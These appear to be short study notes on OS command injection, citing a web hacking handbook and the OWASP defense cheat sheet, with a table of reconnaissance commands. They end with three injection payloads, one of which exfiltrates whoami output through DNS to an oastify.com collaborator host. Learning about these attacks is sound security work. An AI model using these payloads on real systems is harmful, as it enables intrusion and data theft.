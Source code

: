 # Resources
    - The Web Applications Hackers handbook
        - [x] Chapter 10 - Attacking Back-End Components (pgs. 357-368)
        - [x]Chapter 21-A Web Application Hacker's Methodology (pgs. pgs. 832-833)

    - Link: https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html

# UsefulCommands 
| Purpose of command    | Linux        | Windows   |
|------------------------|--------------|-----------|
| Name of current user   | whoami       | whoami    |
| Operating system       | uname -a      | ver       |
| Network configuration  | netstat -an  | netstat -an|
| Running processes      | ps -ef       | tasklist  |

# Key Points to note
    - use wappalyzer to find which system or server or language is being used in them

 & ping -c 10 127.0.0.1 #

 & whoami > var/www/images/myimage.jpg #

 & nslookup `whoami`.8lusabhap11mjqqhtk52vtruplvbj0.oastify.com #